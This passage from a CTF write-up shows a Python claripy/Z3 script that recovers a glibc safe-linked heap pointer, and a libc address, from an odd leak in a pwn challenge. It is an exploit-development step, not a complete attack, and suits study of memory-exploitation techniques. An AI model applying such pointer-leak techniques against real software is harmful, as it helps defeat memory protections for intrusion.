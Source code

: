 My guess is the above can be simplified, but we didn't put any thought into it during the CTF since it gave us the leak we needed to move forward.


### Step 2: Using the mysterious leaked values and Z3, recover the original pointer

Early on, I wanted to explore the properties of the odd one-time leak that this program provided. Given that I knew exactly how the leaked values were computed but didn't know how to use them, I turned to an SMT solver (Z3) to try to solve for the original leaked value. I wrote a proof-of-concept and it turns out it was able to recover the original value! My original POC below tries to recover the original pointer assuming we try to leak a *protected* safe-linked pointer.

babaisflag found out this generalizes to non-protected pointers as well, which allow us to leak the libc pointer that came from the unsorted bin.

```py
import claripy
from pwn import *
import os

s = claripy.Solver()


def compute_leaks(rand_val, p):
    xor_leak = (rand_val >> 0x1c) ^ p
    sub_leak = (rand_val >> 0x1c) - (p >> 0xc)
    return xor_leak, sub_leak

def compute_leaks_symbolic(rand_val, p):
    xor_leak = claripy.LShR(rand_val, 0x1c) ^ p
    sub_leak = claripy.LShR(rand_val, 0x1c) - (p >> 0xc)
    return xor_leak, sub_leak

protected = 0x557f04d0e3ed
rand_example = u64(os.urandom(8))

xor_leak, sub_leak = compute_leaks(rand_example, protected)

# everything below here can be done without rand_example

rand = claripy.BVS('rand', 64)
orig_ptr = claripy.BVS('orig', 64)

# In my initial PoC I chose to assume that we'd be trying to leak
# a safe-linked pointer to a nearby chunk, and asked Z3 to recover
# the original unprotected pointer
protected = claripy.LShR(orig_ptr, 12) ^ orig_ptr

xor_leak_symbolic, sub_leak_symbolic = compute_leaks_symbolic(rand, protected)

s.add(xor_leak_symbolic == claripy.BVV(xor_leak, 64))
s.add(sub_leak_symbolic == claripy.BVV(sub_leak, 64))

orig_ptr = list(s.eval(orig_ptr, 8))

print([hex(x) for x in orig_ptr])
```
